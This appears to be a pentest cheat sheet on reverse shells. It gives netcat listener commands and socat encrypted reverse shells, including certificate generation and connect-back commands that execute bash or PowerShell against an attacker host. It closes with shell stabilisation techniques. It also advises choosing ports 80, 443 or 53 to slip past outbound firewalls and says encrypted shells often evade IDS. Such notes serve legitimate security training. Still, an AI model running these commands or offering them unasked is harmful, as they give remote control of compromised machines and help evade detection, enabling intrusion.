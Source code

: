 ```Bash

```

## Netcat
The syntax for starting a netcat listener using Linux is this:
```Bash
nc -lvnp <port-number>
```
Be aware that if you choose to use a port below 1024, you will need to use sudo when starting your listener. That said, it's often a good idea to use a well-known port number (80, 443 or 53 being good choices) as this is more likely to get past outbound firewall rules on the target.

## Socat
Although, it is same as netcat, but the real difference for which we would prefer this is encrypted shells. This often bypasses IDS system.

We first need to generate a certificate in order to use encrypted shells. This is easiest to do on our attacking machine:
```bash
openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt
```
We then need to merge the two created files into a single .pem file:
```bash
cat shell.key shell.crt > shell.pem
```
Now, when we set up our reverse shell listener, we use below command to listen on a port:
```bash
socat OPENSSL-LISTEN:<PORT>,cert=shell.pem,verify=0 -
```
To connect back, we would use this for Linux Targets:
```bash
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:/bin/bash
or
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:"bash -li"
```
For Windows Target-
socat OPENSSL:<LOCAL-IP>:<LOCAL-PORT>,verify=0 EXEC:"powershell.exe,pipes"
## Shell Stablize
### Using Python
```Bash
python -c 'import pty;pty.spawn("/bin/bash")'
```
This will give us access to term commands such as clear - 
```Bash
export TERM=xterm
```
Finally (and most importantly) we will background the shell using Ctrl + Z. Back in our own terminal we use stty raw -echo; fg. This does two things: first, it turns off our own terminal echo (which gives us access to tab autocompletes, the arrow keys, and Ctrl + C to kill processes). It then foregrounds the shell, thus completing the process.

### Using rlwrap
To use rlwrap, we invoke a slightly different listener:
```Bash
rlwrap nc -lvnp <port>
```
Prepending our netcat listener with "rlwrap" gives us a much more fully featured shell. This technique is particularly useful when dealing with Windows shells, which are otherwise notoriously difficult to stabilise. 


